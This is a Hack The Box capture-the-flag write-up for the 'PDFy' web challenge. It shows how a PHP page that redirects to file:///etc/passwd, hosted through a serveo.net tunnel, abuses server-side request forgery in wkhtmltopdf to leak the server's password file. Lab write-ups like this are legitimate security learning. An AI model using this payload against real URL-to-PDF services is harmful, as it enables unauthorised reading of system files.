 ```yaml
---
title: PDFy - Hack The Box
date: 2024-10-22
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# PDFy

![PDFy - thumbnail](/ctf/hack-the-box/challenges/web/pdfy/pdfy-thumbnail.png)

## Box description

Welcome to PDFy, the exciting challenge where you turn your favorite web pages into portable PDF documents! It's your
chance to capture, share, and preserve the best of the internet with precision and creativity. Join us and transform the
way we save and cherish web content! NOTE: Leak `/etc/passwd` to get the flag!

## Challenge Description

PDFy is a web application that converts a given URL into a PDF document. The challenge is to leverage this functionality
to exploit the system and retrieve the contents of the `/etc/passwd` file.

Here is an example of a PDF generated by the application when using the URL `https://google.com`:

![PDFy - pdf example](/ctf/hack-the-box/challenges/web/pdfy/pdfy-pdf-example.png)

When an invalid URL is provided, the application returns an error message:

```
There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', 'https://randomrandom', 'application/static/pdfs/319c7764c7ff4a3cb02c5eaa2c9c.pdf']' returned non-zero exit status 1.
```

From this error message, we can infer that the application uses `wkhtmltopdf`, a command-line tool for rendering web
pages into PDFs.

## Vulnerability Analysis

`wkhtmltopdf` is known to be vulnerable to **Server-Side Request Forgery (SSRF)** attacks. SSRF vulnerabilities allow
attackers to make HTTP requests from the server itself, potentially accessing internal resources that are otherwise
inaccessible from the outside.

::: danger
The SSRF vulnerability in `wkhtmltopdf` could lead to severe consequences, including data leakage and unauthorized
access to internal server files.
:::

## Exploitation - SSRF

To exploit the SSRF vulnerability in `wkhtmltopdf`, we need to create a web page that tricks the server into loading and
leaking the `/etc/passwd` file. This is done by embedding a PHP script that redirects to the local file system of the
server.

### Step 1: Create the PHP Script

We first create the following PHP script that redirects the page to `file:///etc/passwd`, forcing the server to load the
file:

```php
<!DOCTYPE html>
<html>
<body>
    <h1>Hello world</h1>
<?php
header('location:file:///etc/passwd');
?>
</body>
</html>
```

### Step 2: Host the PHP Script

Next, we host the PHP script on our local machine using the PHP development server:

```bash
php -S 0.0.0.0:8000
```

This allows our machine to serve the PHP script on port 8000.

::: warning
Ensure that your firewall settings allow external connections to the server to make it accessible from the internet.
:::

### Step 3: Expose the Local Server to the Internet

To make the local PHP server accessible from the internet, we use `serveo.net` to create a tunnel that exposes our local
server:

```bash
ssh -R 80:localhost:8000 serveo.net
```

Now, the PHP script can be accessed via a public URL provided by Serveo.

### Step 4: Trigger the SSRF Attack

We submit the Serveo URL (e.g., `http://[serveo-url]/[php-script]`) to the PDFy application’s URL field. When the
application attempts to convert the URL to a PDF, the SSRF vulnerability is triggered, causing the server to follow the
`file:///etc/passwd` redirect.

### Step 5: Capture the Flag

Once the application processes the URL, it retrieves the `/etc/passwd` file. The flag is included in the server's
response, as seen in the PDF output:

![Flag - PDFy](/ctf/hack-the-box/challenges/web/pdfy/pdfy-flag-pdf.png)

With this, we successfully extract the `/etc/passwd` file and capture the flag.

<ChallengeCard
    challengeType="web"
    challengeName="PDFy"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/637"
/>

## References

- [Exploit - notes](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/)
- [Serveo.net](https://serveo.net/)
